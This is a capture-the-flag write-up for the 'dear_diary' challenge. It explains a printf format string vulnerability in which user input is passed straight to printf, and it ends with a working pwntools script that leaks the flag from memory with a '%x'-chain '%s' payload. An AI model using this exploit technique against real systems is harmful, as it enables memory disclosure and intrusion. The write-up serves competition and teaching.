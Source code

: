 dear_diary
==========

**Solved by:** [int10h](https://github.com/brianmwaters) and [mut3](https://github.com/mut3)

> We all want to keep our secrets secure and what is more important than our precious diary entries? We made this highly secure diary service that is sure to keep all your boy crushes and edgy poems safe from your parents. `nc diary.vuln.icec.tf 6501`

The binary has a pretty straightforward menu-based interface that lets you create objects and print them. We might be looking for a heap-based vulnerability here:

```
brian@katahdin:dear_diary$ ./dear_diary
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> 1
Tell me all your secrets: ok!

1. add entry
2. print latest entry
3. quit
> 2
ok!

1. add entry
2. print latest entry
3. quit
> 3
brian@katahdin:dear_diary$
```

However, the binary doesn't like it if if any of our "entries" contain `n`'s:

```
brian@katahdin:dear_diary$ ./dear_diary
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> 1
Tell me all your secrets: no way!
rude!
brian@katahdin:dear_diary$
```

The object allocation turned out to be stack-based, not heap-based, so no use after free here. I spent waaay too much time looking for some kind of overflow, but everything was buttoned up tight. Then I found it, staring me in the face, and it wasn't an overflow:

![IDA screenshot of format string vulnerability](format string vulnerability.png)

In case you can't read that, `printf` is being called with a single, user-controlled argument. This explains why the binary exits if any of our secrets contain the letter `n` - it's sanitizing the input against the `printf` `%n` specifier that can lead to arbitrary code execution!

That's okay though, because we don't need the `%n` specifier here anyway. The binary reads `flag.txt` into memory on startup and stores it somewhere in the data segment. The secrets are stored in `main`'s stack frame. We used two secrets - one containing the address of the flag (there was no PIE so this was known); the other containing a format string payload. The vulnerable `printf` call happens in a stack frame directly below `main` (which is where we stored the address of the flag), so we can get `printf` to read past all the crap we don't care about by making the payload a bunch of `%x`'s followed by a `%s` (the `%s` will read out the actual flag). I don't think we even used the debugger to find the right number of `%x`'s; we just kept adding more 'til it worked:

```
#!/usr/bin/env python2

from pwn import *
remote_host='diary.vuln.icec.tf'
remote_port=6501
context(arch='i386',os='linux')

def pwn():
  print "Beginning pwn!"
  address = p32(0x0804a0a0) # literally leave the memory address '0804a0a0'
  payload = "%x"*17+"%s" # clear 17 4-byte words and then the string at the 4
byte pointer
  child.recvuntil('>') # wait for prompt
  child.sendline('1') # choose new entry
  child.sendline(address)
  child.recvuntil('>')
  child.sendline('1')
  child.sendline(payload)
  child.recvuntil('>')
  child.sendline('2')
  print(child.recv())


child = remote(remote_host,remote_port)
pwn()
child.interactive()
```
